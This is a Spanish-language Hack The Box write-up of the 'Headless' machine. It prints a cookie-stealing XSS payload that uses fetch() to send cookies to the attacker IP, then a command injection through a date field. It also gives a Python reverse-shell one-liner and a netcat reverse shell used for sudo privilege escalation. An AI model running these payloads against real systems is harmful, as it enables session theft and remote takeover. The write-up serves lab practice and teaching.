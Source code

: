 ```yaml
---
title: WriteUp Headless - Hack the box
date: 2024-07-11 12:50 +/-0000
categories: Linux HTB easy
tags:
  - Hackthebox
  - Writeups
  - Linux
author: Fyzethh
toc: true
img_path: /assets/img/avatar.jpg
---
```


# Fase de reconocimiento
```bash
sudo nmap -Pn -sV -n 10.10.11.8 -vvv -oN nmap.result.ports
```
![reconocimiento](/assets/img/captures/headless/Screenshot_2024-07-10_23_17_24.png)

como se aprecia en la imagen tenemos abierto el puerto **22** y puerto **5000**
si analizamos la página web veremos que es una página que está en construcción.
Existe un botón el cual nos envía a un formulario para poder contactarse con soporte.

![vista-web1](/assets/img/captures/headless/Screenshot_2024-07-10_23_19_33.png)
![vista-web2](/assets/img/captures/headless/Screenshot_2024-07-10_23_19_38.png)


al analizar el formulario y hacer pruebas en burpsuite, nos damos cuenta de que la página
es vulnerable a XSS reflected.
![vista-reflected-xss](/assets/img/captures/headless/Screenshot_2024-07-11_00_07_30.png)

interceptaremos con burpsuite las peticiones e intentaremos robar la cookie de sesión
con el siguiente código en javascript

Primero debemos levantar un servidor web en python para poder recibir el valor de la cookie

```bash
python3 -m http.server 80
```

El siguiente código lo pondremos en header **user-agent** y en el campo del formulario **message**

```javascript
<script>fetch("http://10.10.14.28/?cookie="+document.cookie)</script>
```

![vista-burp](/assets/img/captures/headless/Screenshot_2024-07-11_00_07_37.png)



tenemos que ingresar nuestro payload xss en el user-agent y en el body, como se muestra en a siguiente imagen y esperar a que el mensaje enviado a soporte
sea leído, debe haber una tarea programada que revisa cada cierto tiempo los mensajes enviados hacia el servidor.

![http-server](/assets/img/captures/headless/Screenshot_2024-07-11_08_02_25.png)

Como se aprecia en la imagen en nuestro servidor python levantado locamente recibimos la cookie
ahora tenemos que editar nuestra cookie con el valor de la cookie robada, en la fase de reconocimientos
nos habíamos encontrado la ruta /dashboard, si vamos a esta ruta con nuestra nueva cookie veremos lo siguiente

![admin-dashboard](/assets/img/captures/headless/Screenshot_2024-07-11_08_12_41.png)

en esta página podemos enviar una fecha, también podemos concatenar un comando por ejemplo el comando id:

```html
date=2023-09-15;id
```
![burp-vuln](/assets/img/captures/headless/Screenshot_2024-07-11_08_15_42.png)

 como se puede apreciar obtenemos respuesta del comando id, ahora vamos a utilizar python para enviarnos una shell reversa nuestra ip
 en el puerto 1234
 
 ```html
date=2023-09-15;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

y obtenemos acceso al sistema con el usuario "dvir" y podemos ver la flag

![vista-flag-user](/assets/img/captures/headless/Screenshot_2024-07-11_08_41_10.png)

**Elevación de privilegios**

si usamos el comando sudo -l para ver que programas podemos listar los privilegios y comandos que un usuario tiene permitidos ejecutar con privilegios elevados (sudo)
podemos ver que podemos ejecutar un binario que está en la ruta /usr/bin/syscheck

![vista-elevation-priv](/assets/img/captures/headless/Screenshot_2024-07-11_08_42_05.png)


al observar el script podemos ver que se ejecuta un script llamado  ./initdb.sh
como se ejecuta en una ruta absoluta, crearemos un archivo con el mismo nombre initdb.sh y agregaremos una llamada de netcat hacia nuestra
IP de la siguiente forma y le daremos permisos de ejecución al script.
```bash
echo "nc -e /bin/sh 10.10.14.28 4444" > initdb.sh
chmod +x initdb.sh
```
al ejecutar el /usr/bin/syscheck como super ussuario (sudo), el user root aplicara la llamada hacia nuestra maquina atacante
y obtenemos una shell reversa, de esta forma hemos elevado nuestro privilegio y ahora somos el usuario root


![vista-elevation-priv-root](/assets/img/captures/headless/Screenshot_2024-07-11_09_06_59.png)
